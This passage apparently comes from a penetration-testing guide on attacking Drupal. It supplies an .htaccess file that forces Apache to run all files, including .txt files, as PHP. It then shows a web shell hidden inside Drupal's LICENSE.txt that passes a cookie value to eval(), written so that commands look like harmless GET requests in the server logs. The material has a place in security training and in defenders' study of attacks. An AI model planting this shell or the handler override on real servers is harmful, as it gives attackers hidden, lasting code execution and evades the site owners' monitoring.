The last step is the simplest, and is broken down into two sub-steps. The first is to upload a file in .htaccess format to leverage the Apache directives and allow .txt files to be interpreted by the PHP engine. The second is to upload a .txt file containing our payload.

File: .htaccess

```
<Files *>
  SetHandler application/x-httpd-php
</Files>

# Vroum! Vroum!
# We reactivate PHP engines for all versions in order to be targetless.
<IfModule mod_php.c>
  php_flag engine on
</IfModule>
<IfModule mod_php7.c>
  php_flag engine on
</IfModule>
<IfModule mod_php5.c>
  php_flag engine on
</IfModule>
```

Why is this trick cool?

Because once the Webshell (that we’ll call LICENSE.txt ) is dropped onto the Web server, we can transmit our commands via `$_COOKIE` and in the Web server logs, this will show up as a legitimate GET request to a text file.

Why name our Webshell LICENSE.txt?

Simply because if we take the following file, for example [core/LICENSE.txt](https://github.com/drupal/drupal/blob/11.x/core/LICENSE.txt) (which is already present in the Drupal core), we have a file of 339 lines and 17.6 KB in size, which is perfect for adding a small snippet of PHP code in the middle (since the file is big enough).

<figure><img src="../../../images/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

File: Patched LICENSE.txt

```txt

...

this License, you may choose any version ever published by the Free Software
Foundation.

<?php

# We inject our payload into the cookies so that in the logs of the compromised
# server it shows up as having been requested via the GET method, in order to
# avoid raising suspicions.
if (isset($_COOKIE["89e127753a890d9c4099c872704a0711bbafbce9"])) {
    if (!empty($_COOKIE["89e127753a890d9c4099c872704a0711bbafbce9"])) {
        eval($_COOKIE["89e127753a890d9c4099c872704a0711bbafbce9"]);
    } else {
        phpinfo();
    }
}

?>

  10. If you wish to incorporate parts of the Program into other free
programs whose distribution conditions are different, write to the author

...

```